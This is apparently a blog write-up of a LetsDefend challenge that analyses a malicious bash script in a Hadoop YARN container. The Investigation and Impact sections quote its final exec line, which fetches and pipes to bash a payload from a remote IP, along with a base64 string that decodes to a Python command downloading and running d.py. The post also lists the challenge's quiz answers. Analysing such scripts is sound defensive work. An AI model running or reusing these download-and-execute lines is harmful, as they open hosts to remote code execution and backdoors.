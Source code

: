 ```yaml
---
title: "Let's Defend - Bash Script"
categories: "LetsDefend"
tags: ["Linux", "Bash", "Container"]
description: "A small writeup for LetsDefend's challenge 'Bash Script'."
date: 2025-02-28T19:07:18-06:00
image: ldef.png
math: 
license: 
hidden: false
---
```

## Description
>The SOC team uncovered a suspicious bash script linked to a critical Hadoop YARN cluster that handled large-scale data processing. This script was flagged for further investigation by L1 SOC analysts, who suspected it could be a potential breach. You have been tasked to analyze the bash script to uncover its intent

## Investigation

The file starts off by defining several environment variables for what looks to be container deployment:
```bash
#!/bin/bash

set -o pipefail -e
export PRELAUNCH_OUT="/root/apps/hadoop-3.2.2/logs/userlogs/application_1617763119642_4002/container_1617763119642_4002_01_000001/prelaunch.out"
exec >"${PRELAUNCH_OUT}"
export PRELAUNCH_ERR="/root/apps/hadoop-3.2.2/logs/userlogs/application_1617763119642_4002/container_1617763119642_4002_01_000001/prelaunch.err"
exec 2>"${PRELAUNCH_ERR}"
echo "Setting up env variables"
export JAVA_HOME=${JAVA_HOME:-"/usr/lib/jvm/jre-1.8.0-openjdk-1.8.0.275.b01-1.el8_3.x86_64"}
export HADOOP_COMMON_HOME=${HADOOP_COMMON_HOME:-"/root/apps/hadoop-3.2.2"}
export HADOOP_HDFS_HOME=${HADOOP_HDFS_HOME:-"/root/apps/hadoop-3.2.2"}
export HADOOP_CONF_DIR=${HADOOP_CONF_DIR:-"/root/apps/hadoop-3.2.2/etc/hadoop"}
export HADOOP_YARN_HOME=${HADOOP_YARN_HOME:-"/root/apps/hadoop-3.2.2"}
export HADOOP_HOME=${HADOOP_HOME:-"/root/apps/hadoop-3.2.2"}
export PATH=${PATH:-"/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin"}
export LANG=${LANG:-"en_US.utf8"}
<...SNIP...>
```

Nothing stands out to me as particularly exciting except for the section on  "Launching container" at the end:
```bash
echo "Launching container"
exec /bin/bash -c "(curl -s http://209.141.40.190/xms || wget -q -O - http://209.141.40.190/xms || lwp-download http://209.141.40.190/xms /tmp/xms) | bash -sh; bash /tmp/xms; rm -rf /tmp/xms; echo cHl0aG9uIC1jICdpbXBvcnQgdXJsbGliO2V4ZWModXJsbGliLnVybG9wZW4oImh0dHA6Ly8yMDkuMTQxLjQwLjE5MC9kLnB5IikucmVhZCgpKSc= | base64 -d | bash -"
```

It seems very unusual for a container launch to involve `curl` `wget` or `lwp-download` and piping the contents to `bash`. There is also a base64 string that also looks suspicious on decode:
```
python -c 'import urllib;exec(urllib.urlopen("http://209.141.40.190/d.py").read())'
```

## Answers

### 1. What is the path set to the standard output log file?

This is part of the exports, an export to PRELAUNCH_OUT:
```
/root/apps/hadoop-3.2.2/logs/userlogs/application_1617763119642_4002/container_1617763119642_4002_01_000001/prelaunch.out
```

### 2. Which environment variable specifies the Java home directory?

Asking what env is used for the java home I think?

```
export JAVA_HOME=${JAVA_HOME:-"/usr/lib/jvm/jre-1.8.0-openjdk-1.8.0.275.b01-1.el8_3.x86_64"}
```

The env will be `JAVA_HOME` as this is the variable being set with export.


### 3. What is the value of the “NM_HTTP_PORT” environment variable?

This is also in the variables being defined:

```
export NM_HTTP_PORT="8042"
```

It's looking for the answer `8042`.

### 4. What directory is set as the “LOCAL_DIRS” environment variable?

Once again asking about an environment variable being assigned. Just look for LOCAL_DIRS:

```
export LOCAL_DIRS="/root/apps/hadoopdata/nm-local-dir/usercache/dr.who/appcache/application_1617763119642_4002"
```

### 5. The script executes a line at the end of it. What is it?

The description does not really reflect what the answer is expecting. Here, they want the decoded base64 segment.

```
python -c 'import urllib;exec(urllib.urlopen("http://209.141.40.190/d.py").read())'
```

### 6. Which command is used to create a copy of the launch script?

Answer is the bash command `cp`.

### 7. What command is executed to determine the directory contents?

This information is presented in the script as part of displaying cwd contents:

```
# Determining directory contents
echo "ls -l:" 1>"/root/apps/hadoop-3.2.2/logs/userlogs/application_1617763119642_4002/container_1617763119642_4002_01_000001/directory.info"
```

### 8. What IP address is used for downloading a script from the remote server?

The IP address is what is used in the `exec` at the end of the script.

## Impact

Most of the deployment script appears benign except for the final `exec` line. 

```bash
(curl -s http://209.141.40.190/xms || wget -q -O - http://209.141.40.190/xms || lwp-download http://209.141.40.190/xms /tmp/xms)
```

There is redundancy here in retrieving the `xms` file to account for situations where `curl` or `wget` might not be present on the system. The goal is likely to have the host execute the `xms` payload, which is very likely a reverse shell/backdoor.

```
python -c 'import urllib;exec(urllib.urlopen("http://209.141.40.190/d.py").read())'
```

This is also likely another attempt to establish remote shell/backdoor persistence on the host. Notably it is targeting a different file, `d.py`, as this is for python-based execution instead of bash.
